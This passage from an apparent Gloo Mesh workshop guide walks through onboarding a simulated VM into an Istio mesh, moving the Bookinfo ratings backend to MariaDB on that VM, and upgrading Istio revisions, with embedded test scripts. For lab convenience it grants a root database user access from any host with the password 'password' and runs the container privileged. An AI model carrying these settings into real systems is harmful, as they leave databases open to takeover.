    metrics/otlp_relay:
      enabled: true
prometheus:
  skipAutoMigration: true
EOF
```
The certificates will be generated by the Spire server. We need to restart it to use the intermediate CA certificate generated by the `RootTrustPolicy`.

```bash
kubectl --context ${CLUSTER1} -n istio-system delete secrets cacerts
kubectl --context ${CLUSTER1} -n istio-system delete issuedcertificates,podbouncedirectives --all
kubectl --context ${CLUSTER1} -n gloo-mesh rollout status deploy
bash ./data/steps/root-trust-policy/restart-istio-pods.sh ${CLUSTER1}
kubectl --context ${CLUSTER1} -n gloo-mesh rollout restart deploy gloo-mesh-agent
```
<!--bash
printf "Waiting for all pods needed for the test..."
printf "\n"
kubectl --context ${CLUSTER1} -n istio-gateways rollout status deploy
kubectl --context ${CLUSTER1} -n gloo-mesh rollout status deploy
printf "\n"
-->

First of all, we need to define a few environment variables:

```bash
export VM_APP="vm1"
export VM_NAMESPACE="virtualmachines"
export VM_NETWORK="vm-network"
```

Create the namespace that will host the virtual machine:

```bash
kubectl --context ${CLUSTER1} create namespace "${VM_NAMESPACE}"
```

Let's update the bookinfo `Workspace` to include the `virtualmachines` namespace of the first cluster:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
    - name: virtualmachines
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

We also need to update the gateways `Workspace` to include the `gloo-mesh` namespace of the first cluster (to allow the VM to send metrics to the OTel collector):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
    - name: gloo-mesh
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Run a Docker container that we'll use to simulate a VM:

```bash
docker run -d --name vm1 --network kind --privileged -v `pwd`/vm1:/vm djannot/ubuntu-systemd:22.04
```

Here is the DockerFile used to create the image. It allows us to use systemd.

```
FROM ubuntu:22.04

# Install systemd
RUN apt-get update && apt-get install -y systemd systemd-sysv

# Remove unnecessary systemd services that might cause issues
RUN (cd /lib/systemd/system/sysinit.target.wants/; for i in *; do [ $i == systemd-tmpfiles-setup.service ] || rm -f $i; done); \
    rm -f /lib/systemd/system/multi-user.target.wants/*;\
    rm -f /etc/systemd/system/*.wants/*;\
    rm -f /lib/systemd/system/local-fs.target.wants/*; \
    rm -f /lib/systemd/system/sockets.target.wants/*udev*; \
    rm -f /lib/systemd/system/sockets.target.wants/*initctl*; \
    rm -f /lib/systemd/system/basic.target.wants/*;\
    rm -f /lib/systemd/system/anaconda.target.wants/*;

# Override the default command, to initiate systemd
CMD ["/sbin/init"]
```

Update the DNS configuration:

```bash
docker exec vm1 bash -c "sed 's/127.0.0.11/8.8.8.8/' /etc/resolv.conf > /vm/resolv.conf"
docker exec vm1 cp /vm/resolv.conf /etc/resolv.conf
```

Install the dependencies:

```bash
docker exec vm1 apt update -y
docker exec vm1 apt-get install -y iputils-ping curl iproute2 iptables python3 sudo dnsutils
```

Create routes to allow the VM to access the Pods on the 2 Kubernetes clusters:

```bash
cluster1_cidr=$(kubectl --context ${CLUSTER1} -n kube-system get pod -l component=kube-controller-manager -o jsonpath='{.items[0].spec.containers[0].command}' | jq -r '.[] | select(. | startswith("--cluster-cidr="))' | cut -d= -f2)
cluster2_cidr=$(kubectl --context ${CLUSTER2} -n kube-system get pod -l component=kube-controller-manager -o jsonpath='{.items[0].spec.containers[0].command}' | jq -r '.[] | select(. | startswith("--cluster-cidr="))' | cut -d= -f2)

docker exec vm1 $(kubectl --context ${CLUSTER1} get nodes -o=jsonpath='{range .items[*]}{"ip route add "}{"'${cluster1_cidr}' via "}{.status.addresses[?(@.type=="InternalIP")].address}{"\n"}{end}')
docker exec vm1 $(kubectl --context ${CLUSTER2} get nodes -o=jsonpath='{range .items[*]}{"ip route add "}{"'${cluster2_cidr}' via "}{.status.addresses[?(@.type=="InternalIP")].address}{"\n"}{end}')
```

Copy `meshctl` into the container:

```bash
docker cp $HOME/.gloo-mesh/bin/meshctl vm1:/usr/local/bin/
```

Create an `ExternalWorkload` object to represent the VM and the applications it runs:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2alpha1
kind: ExternalWorkload
metadata:
  name: ${VM_APP}
  namespace: virtualmachines
  labels:
    app: ${VM_APP}
spec:
  connectedClusters:
    ${CLUSTER1}: virtualmachines
  identitySelector:
    joinToken:
      enable: true
  ports:
    - name: http-vm
      number: 9999
    - name: tcp-db
      number: 3306
      protocol: TCP
EOF
```

<!--bash
uuid_regex_partial="[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}"
uuid_regex="^${uuid_regex_partial}$"
start_time=$(date +%s) # Capture start time
duration=120 # Set duration for 2 minutes (120 seconds)
# Loop until JOIN_TOKEN matches the UUID format
while [[ ! "${JOIN_TOKEN}" =~ ${uuid_regex} ]]; do
    current_time=$(date +%s)
    elapsed=$((current_time - start_time))
    if [[ $elapsed -ge $duration ]]; then
        echo "Timeout reached. Exiting loop."
        break
    fi

    echo "Waiting for JOIN_TOKEN to have the correct format..."
    export JOIN_TOKEN=$(meshctl external-workload gen-token --kubecontext ${CLUSTER1} --trust-domain ${CLUSTER1} --ttl 3600 --ext-workload virtualmachines/${VM_APP} --plain=true | grep -ioE "${uuid_regex_partial}")
    sleep 1 # Pause for 1 second
done
[[ "${JOIN_TOKEN}" =~ ${uuid_regex} ]] || (echo "JOIN_TOKEN does not match the UUID format." && exit 1)
-->

Get a Spire token to register the VM:

```shell
export JOIN_TOKEN=$(meshctl external-workload gen-token \
  --kubecontext ${CLUSTER1} \
  --ext-workload virtualmachines/${VM_APP} \
  --trust-domain ${CLUSTER1} \
  --ttl 3600 \
  --plain=true | grep -i 'token' | head -n 1 | cut -d ':' -f2 | xargs)
```

Get the IP address of the E/W gateway the VM will use to register itself:

```bash
export EW_GW_ADDR=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=eastwestgateway -o jsonpath='{.items[0].status.loadBalancer.ingress[0].*}')
```

Register the VM:
<!--bash
echo -n Waiting for EW be ready...
timeout -v 1m bash -c "
until nc -z ${EW_GW_ADDR} 31338;
do
  sleep 1
  echo -n .
done"
echo
-->

```shell
export GLOO_AGENT_URL=https://storage.googleapis.com/gloo-platform/vm/v2.6.4/gloo-workload-agent.deb
export ISTIO_URL=https://storage.googleapis.com/solo-workshops/istio-binaries/1.22.3/istio-sidecar.deb
docker exec vm1 meshctl ew onboard --install \
  --attestor token \
  --join-token ${JOIN_TOKEN} \
  --cluster ${CLUSTER1} \
  --gateway-addr ${EW_GW_ADDR} \
  --gateway-service-account $(kubectl --context ${CLUSTER1} -n istio-gateways get sa -l istio=eastwestgateway -o jsonpath='{.items[0].metadata.name}') \
  --gateway istio-gateways/istio-eastwestgateway-1-22 \
  --trust-domain ${CLUSTER1} \
  --istio-rev 1-22 \
  --network vm-network \
  --gloo ${GLOO_AGENT_URL} \
  --istio ${ISTIO_URL} \
  --ext-workload virtualmachines/${VM_APP}
```
<!--bash
export GLOO_AGENT_URL=https://storage.googleapis.com/gloo-platform/vm/v2.6.4/gloo-workload-agent.deb
export ISTIO_URL=https://storage.googleapis.com/solo-workshops/istio-binaries/1.22.3/istio-sidecar.deb
echo -n Trying to onboard the VM...
MAX_ATTEMPTS=10
ATTEMPTS=0
while [ $ATTEMPTS -lt $MAX_ATTEMPTS ]; do
  timeout 1m docker exec vm1 meshctl ew onboard --install \
  --attestor token \
  --join-token ${JOIN_TOKEN} \
  --cluster ${CLUSTER1} \
  --gateway-addr ${EW_GW_ADDR} \
  --gateway-service-account $(kubectl --context ${CLUSTER1} -n istio-gateways get sa -l istio=eastwestgateway -o jsonpath='{.items[0].metadata.name}') \
  --gateway istio-gateways/istio-eastwestgateway-1-22 \
  --trust-domain ${CLUSTER1} \
  --istio-rev 1-22 \
  --network vm-network \
  --gloo ${GLOO_AGENT_URL} \
  --istio ${ISTIO_URL} \
  --ext-workload virtualmachines/${VM_APP} | tee output.log
  cat output.log | grep "Onboarding complete!"
  if [ $? -eq 0 ]; then
    break
  fi
  ATTEMPTS=$((ATTEMPTS + 1))
  echo "Onboarding failed, retrying... (${ATTEMPTS}/${MAX_ATTEMPTS})"
  sleep 2
done
if [ $ATTEMPTS -eq $MAX_ATTEMPTS ]; then
  echo "Onboarding failed after $MAX_ATTEMPTS attempts"
  exit 1
fi
-->

Take a look at the Envoy clusters:

```bash
docker exec vm1 curl -v localhost:15000/clusters | grep productpage.bookinfo-frontends.svc.cluster.local
```

It should return several lines similar to the one below:

```,nocopy
outbound|9080||productpage.bookinfo-frontends.svc.cluster.local::172.18.2.1:15443::cx_active::0
```

You can see that the IP address corresponds to the IP address of the E/W Gateway.

You should now be able to reach the product page application from the VM:

```bash
docker exec vm1 curl -I productpage.bookinfo-frontends.svc.cluster.local:9080/productpage
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The VM should be able to access the productpage service", () => {
  const command = 'docker exec vm1 curl -s -o /dev/null -w "%{http_code}" productpage.bookinfo-frontends.svc.cluster.local:9080/productpage';
  it("Got the expected status code 200", () => helpers.genericCommand({ command: command, responseContains: "200" }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/vm-integration-spire/tests/vm-access-productpage.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Now, let's do the opposite and access an application running in the VM from a Pod.

Run the following command to start a web server:

```bash
docker exec -d vm1 python3 -m http.server 9999
```

Try to access the app from the `productpage` Pod:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends exec $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://${VM_APP}.virtualmachines.ext.cluster.local:9999'); print(r.text)"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should be able to access the VM", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://" + process.env.VM_APP + ".virtualmachines.ext.cluster.local:9999'); print(r.status_code)\"";
  it('Got the expected status code 200', () => helpers.genericCommand({ command: command, responseContains: "200" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/vm-integration-spire/tests/productpage-access-vm.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Finally, let's deploy MariaDB in the VM and configure the ratings service to use it as a backend.

```bash
docker exec vm1 apt-get update
docker exec vm1 apt-get install -y mariadb-server
```

We need to configure the database properly:

```bash
docker exec vm1 sed -i '/bind-address/c\bind-address  = 0.0.0.0' /etc/mysql/mariadb.conf.d/50-server.cnf
docker exec vm1 systemctl start mysql

docker exec -i vm1 mysql <<EOF
# Grant access to root
GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' IDENTIFIED BY 'password' WITH GRANT OPTION;
# Grant root access to other IPs
CREATE USER 'root'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
SELECT host, user FROM mysql.user;
EOF

docker exec vm1 systemctl restart mysql
docker exec vm1 curl -LO https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/src/mysql/mysqldb-init.sql
docker exec vm1 sh -c 'mysql -u root -ppassword < mysqldb-init.sql'
```

We can check that the `ratings` table is correctly configured:

```bash
docker exec vm1 mysql -u root -ppassword test -e "select * from ratings;"
```

Deploy a new version of the ratings service that is using the database and scale down the current version:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f data/steps/vm-integration-spire/bookinfo-ratings-v2-mysql-vm.yaml
```

Scale down the original `ratings` deployment:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/ratings-v1 --replicas=0
```

Wait for the original deployment to terminate:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends wait --for=delete pod -l app=ratings,version=v1
```

Use the `Bookinfo` tab to check you can see stars in the reviews part (on the right). It's showing the VM is providing the right data to the `ratings` service.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("The ratings service should use the database running on the VM", () => {
  it('Got reviews v2 with ratings in cluster1', () => helpers.checkBody({ host: `https://cluster1-bookinfo.example.com`, path: '/productpage', body: 'text-black', match: true }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/vm-integration-spire/tests/ratings-using-vm.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


Let's delete the objects we've created:

```bash
kubectl --context ${CLUSTER1} -n "${VM_NAMESPACE}" delete externalworkload ${VM_APP}
kubectl --context ${CLUSTER1} delete namespace "${VM_NAMESPACE}"
kubectl --context ${CLUSTER1} -n bookinfo-backends delete -f https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/platform/kube/bookinfo-ratings-v2-mysql-vm.yaml
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/ratings-v1 --replicas=1
```

Let's apply the original bookinfo Workspace:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Let's apply the original gateways Workspace:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

And let's delete the Docker container which represents the VM:

```bash
docker rm -f vm1
```


## Lab 25 - Upgrade Istio using Gloo Mesh Lifecycle Manager <a name="lab-25---upgrade-istio-using-gloo-mesh-lifecycle-manager-"></a>
[](https://youtu.be/6DtGVkecArs "Video Link")

Set the variables corresponding to the old and new revision tags:

```bash
export OLD_REVISION=1-22
export NEW_REVISION=1-23
```

We are going to upgrade Istio using Gloo Mesh Lifecycle Manager.

```bash
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster1-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        defaultRevision: true
      revision: 1-22
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster1
            network: cluster1
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
    - clusters:
      - name: cluster1
        defaultRevision: false
      revision: 1-23
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster1
            network: cluster1
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF

cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster1
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster1
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster1
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster1
EOF

cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster2-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        defaultRevision: true
      revision: 1-22
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster2
            network: cluster2
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
    - clusters:
      - name: cluster2
        defaultRevision: false
      revision: 1-23
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster2
            network: cluster2
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF

cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster2-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster2-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-22
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.22.3-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster2
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster2
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster2
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster2
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Checking Istio installation", function() {
  it('istiod pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-system", labels: "app=istiod", instances: 2 }));
  it('gateway pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER1, namespace: "istio-gateways", labels: "app=istio-ingressgateway", instances: 4 }));
  it('istiod pods are ready in cluster ' + process.env.CLUSTER2, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER2, namespace: "istio-system", labels: "app=istiod", instances: 2 }));
  it('gateway pods are ready in cluster ' + process.env.CLUSTER2, () => helpers.checkDeploymentsWithLabels({ context: process.env.CLUSTER2, namespace: "istio-gateways", labels: "app=istio-ingressgateway", instances: 4 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/istio-lifecycle-manager-upgrade/tests/istio-ready.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Run the following command to check the status of the upgrade(s):

```sh
kubectl --context ${MGMT} -n gloo-mesh get istiolifecyclemanager.admin.gloo.solo.io -ojsonpath='{.items[*].status.clusters.*.installations.*}'|jq -r '[.observedOperator.components.ingressGateways[].label, .observedRevision, .state]'
kubectl --context ${MGMT} -n gloo-mesh get gatewaylifecyclemanagers.admin.gloo.solo.io -ojsonpath='{.items[*].status.clusters.*.installations.*}'|jq -r '[.observedOperator.components.ingressGateways[].label, .observedRevision, .state]'
```
<!--bash
printf "Waiting for all istiolifecyclemanager to be HEALTHY"
until [ $(kubectl --context ${MGMT} -n gloo-mesh get istiolifecyclemanager.admin.gloo.solo.io -ojsonpath='{.items[*].status.clusters.*.installations.*}'|jq -r '.state'|grep -v HEALTHY -c) -eq 0 ]; do
  printf "%s" "."
  sleep 1
done
printf "\n"
kubectl --context ${CLUSTER1} -n istio-system rollout status deploy
-->

When the upgrade is completed, the state at the end of the objects will be `HEALTHY`.
Now, let's restart all the Istio Pods to use the new revision:

```bash
kubectl --context ${CLUSTER1} get ns -l istio.io/rev=${OLD_REVISION} -o json | jq -r '.items[].metadata.name' | while read ns; do
  kubectl --context ${CLUSTER1} label ns ${ns} istio.io/rev=${NEW_REVISION} --overwrite
  kubectl --context ${CLUSTER1} -n ${ns} rollout restart deploy
done
kubectl --context ${CLUSTER2} get ns -l istio.io/rev=${OLD_REVISION} -o json | jq -r '.items[].metadata.name' | while read ns; do
  kubectl --context ${CLUSTER2} label ns ${ns} istio.io/rev=${NEW_REVISION} --overwrite
  kubectl --context ${CLUSTER2} -n ${ns} rollout restart deploy
done
kubectl --context ${CLUSTER1} -n httpbin patch deploy in-mesh --patch "{\"spec\": {\"template\": {\"metadata\": {\"labels\": {\"istio.io/rev\": \"${NEW_REVISION}\" }}}}}"
```
<!--bash
kubectl --context ${CLUSTER1} -n httpbin rollout status deploy in-mesh
-->


Test that you can still access the `productpage` service through the Istio Ingress Gateway corresponding to the old revision using the command below:

```bash
curl -k "https://cluster1-bookinfo.example.com/productpage" -I
```

You should get a response similar to the following one:

```
HTTP/2 200
server: istio-envoy
date: Wed, 24 Aug 2022 14:58:22 GMT
content-type: application/json
content-length: 670
access-control-allow-origin: *
access-control-allow-credentials: true
x-envoy-upstream-service-time: 7
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("productpage is accessible", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `https://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/istio-lifecycle-manager-upgrade/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

All good, so we can now configure the Istio gateway service(s) to use both revisions:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways patch svc istio-ingressgateway --type=json --patch '[{"op": "remove", "path": "/spec/selector/revision"}]'
kubectl --context ${CLUSTER1} -n istio-gateways patch svc istio-eastwestgateway --type=json --patch '[{"op": "remove", "path": "/spec/selector/revision"}]'
kubectl --context ${CLUSTER2} -n istio-gateways patch svc istio-ingressgateway --type=json --patch '[{"op": "remove", "path": "/spec/selector/revision"}]'
kubectl --context ${CLUSTER2} -n istio-gateways patch svc istio-eastwestgateway --type=json --patch '[{"op": "remove", "path": "/spec/selector/revision"}]'
```

We don't switch the selector directly from one the old revision to the new one to avoid any request to be dropped.

Test that you can still access the `productpage` service:

```bash
curl -k "https://cluster1-bookinfo.example.com/productpage" -I
```

You should get a response similar to the following one:

```
HTTP/2 200
server: istio-envoy
date: Wed, 24 Aug 2022 14:58:22 GMT
content-type: application/json
content-length: 670
access-control-allow-origin: *
access-control-allow-credentials: true
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("productpage is accessible", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `https://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/istio-lifecycle-manager-upgrade/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
